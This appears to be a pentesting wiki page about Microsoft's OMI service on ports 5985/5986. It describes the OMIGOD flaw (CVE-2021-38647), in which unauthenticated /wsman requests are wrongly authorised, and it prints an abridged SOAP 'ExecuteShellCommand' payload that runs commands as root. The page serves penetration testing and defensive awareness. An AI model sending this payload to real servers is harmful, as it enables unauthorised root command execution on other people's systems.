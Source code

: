 # 5985,5986 - Pentesting OMI


### **Basic Information**

**OMI** is presented as an **[[https://github.com/microsoft/omi|open-source]]** tool by Microsoft, designed for remote configuration management. It's particularly relevant for Linux servers on Azure that utilize services such as:

- **Azure Automation**
- **Azure Automatic Update**
- **Azure Operations Management Suite**
- **Azure Log Analytics**
- **Azure Configuration Management**
- **Azure Diagnostics**

The process `omiengine` is initiated and listens on all interfaces as root when these services are activated.

**Default ports** used are **5985** (http) and **5986** (https).

### **[[https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-38647|CVE-2021-38647 Vulnerability]]**

As observed on September 16, Linux servers deployed in Azure with the mentioned services are susceptible due to a vulnerable version of OMI. This vulnerability lies in the OMI server's handling of messages through the `/wsman` endpoint without requiring an Authentication header, incorrectly authorizing the client.

An attacker can exploit this by sending an "ExecuteShellCommand" SOAP payload without an Authentication header, compelling the server to execute commands with root privileges.

```xml
<s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing"
   ...
   <s:Body>
      <p:ExecuteShellCommand_INPUT xmlns:p="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem">
         id
         0
      </p:ExecuteShellCommand_INPUT>
   </s:Body>
</s:Envelope>
```
```
For a more information about this CVE **[[https://github.com/horizon3ai/CVE-2021-38647|check this]]**.

## References

- [[https://www.horizon3.ai/omigod-rce-vulnerability-in-multiple-azure-linux-deployments/|https://www.horizon3.ai/omigod-rce-vulnerability-in-multiple-azure-linux-deployments/]]
- [[https://blog.wiz.io/omigod-critical-vulnerabilities-in-omi-azure/|https://blog.wiz.io/omigod-critical-vulnerabilities-in-omi-azure/]]



